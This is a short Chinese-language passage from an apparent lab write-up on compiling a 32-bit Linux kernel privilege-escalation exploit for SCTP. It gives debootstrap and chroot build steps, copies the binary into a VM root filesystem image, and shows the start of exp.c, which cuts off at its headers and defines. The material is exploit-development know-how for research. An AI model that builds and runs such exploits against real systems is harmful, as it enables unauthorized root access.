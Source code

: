 在64位ubuntu 18.04下用gcc –m32编译exp会出错，所以通过debootstrap拉取32位文件系统来编译exp。
<li>debootstrap —arch i386 stretch debian_32 [http://ftp.cn.debian.org/debian/](http://ftp.cn.debian.org/debian/)
</li>
1. chroot debian_32
1. apt install gcc libsctp-dev
编译exp：
- 首先进入32位文件系统：chroot debian_32
- 将exp.c放入文件系统中。 sudo cp exp.c /home/parallels/debian_32/exp.c
- 编译exp.c： gcc exp.c -lpthread -lsctp -static -o exp
挂载放入exp：
- mkdir rootfs
- sudo mount rootfs.img rootfs
- sudo cp ./exp ./rootfs
- sudo umount rootfs


## exp提权：

```
#define _GNU_SOURE

#include &lt;stdio.h&gt;

#include &lt;stdlib.h&gt;

#include &lt;unistd.h&gt;

#include &lt;fcntl.h&gt;

#include &lt;string.h&gt;

#include &lt;arpa/inet.h&gt;

#include &lt;pthread.h&gt;

#include &lt;error.h&gt;

#include &lt;sys/types.h&gt;

#include &lt;sys/socket.h&gt;

#include &lt;netinet/sctp.h&gt;

#include &lt;netinet/in.h&gt;

#include &lt;time.h&gt; 

#include &lt;malloc.h&gt;

#include &lt;sys/mman.h&gt;

#include &lt;err.h&gt;

#include &lt;signal.h&gt;



#define SERVER_PORT 6666

#define SCTP_GET_ASSOC_ID_LIST    29

#define SCTP_RESET_ASSOC    120

```